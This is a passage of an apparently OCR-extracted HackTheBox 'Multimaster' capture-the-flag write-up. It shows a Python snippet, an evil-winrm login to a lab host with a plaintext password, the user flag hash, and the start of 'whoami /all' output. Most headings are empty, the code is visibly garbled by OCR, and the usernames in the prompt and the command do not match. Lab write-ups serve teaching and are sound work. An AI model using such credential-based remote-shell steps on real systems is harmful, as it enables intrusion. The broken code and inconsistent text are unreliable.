 ```python
                        del element [u "position"]
                        del element [u "id"]
                        del element [u "email"]
                        del element [u "name"]
                except TypeError:
                    del jsona [u "position"]
                    del jsona [u "id"]
                    del jsona [u "email"]
                    del jsona [u "name"]
                data = json.dumps (jsona, sort_keys = True, indent = 4)
                if "\\" in r.text:
                    print colored (data + "\ n", "yellow")
            i + = 1
```

## Initial Foothold

## Road to User

### Further enumeration

### Finding user creds

```text
zweilos@kalimaa:~/htb/multimaster$ evil-winrm -u tushikikatomo -i 10.10.10.179 -p finance1

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents>
```

### User.txt

```text
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> cat user.txt
6043eb65fb46ebf347fa4c1fe9584a2f
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `tushikikatomo`

```text
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== =============================================
megacorp\tushikikatomo S-1-5-21-3167813660-1240564177-918740779-1110


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
```